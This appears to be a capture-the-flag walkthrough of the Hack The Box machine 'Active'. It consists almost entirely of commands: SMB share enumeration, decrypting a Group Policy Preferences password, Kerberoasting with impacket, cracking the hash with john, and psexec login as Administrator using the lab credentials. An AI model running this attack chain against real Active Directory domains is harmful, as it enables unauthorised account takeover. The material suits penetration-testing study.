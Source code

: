 Active
========================

    sudo nmap_enum active.htb | tee nmap_output.txt

Aqui sossegado:

    smbclient -L //10.10.10.100
    smbclient //10.10.10.100/Replication -c 'recurse true; ls'
    
![qownnotes-media-vtsXyC](../../../media/qownnotes-media-vtsXyC.png)

    smbclient //10.10.10.100/Replication
    cd active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups
    get Groups.xml

# Exploitation

    gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ


![qownnotes-media-jysviZ](../../../media/qownnotes-media-jysviZ.png)

    impacket-psexec active.htb/SVC_TGS:GPPstillStandingStrong2k18@10.10.10.100
    
    impacket-GetNPUsers active.htb/SVC_TGS:GPPstillStandingStrong2k18 -dc-ip 10.10.10.100 -request

# Privilege Escalation
    
    impacket-GetUserSPNs active.htb/SVC_TGS:GPPstillStandingStrong2k18 -dc-ip 10.10.10.100 -request
    
![qownnotes-media-tKQdxa](../../../media/qownnotes-media-tKQdxa.png)

![qownnotes-media-qApPLP](https://github.com/alisonocosta/InfraHacking/blob/main/.gitbook/assets/qownnotes-media-qApPLP.png)

    john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
    
    impacket-psexec 'active.htb/Administrator:Ticketmaster1968@10.10.10.100'
    

![qownnotes-media-LCzGOy](https://github.com/alisonocosta/InfraHacking/tree/main/.gitbook/assets/qownnotes-media-LCzGOy.png)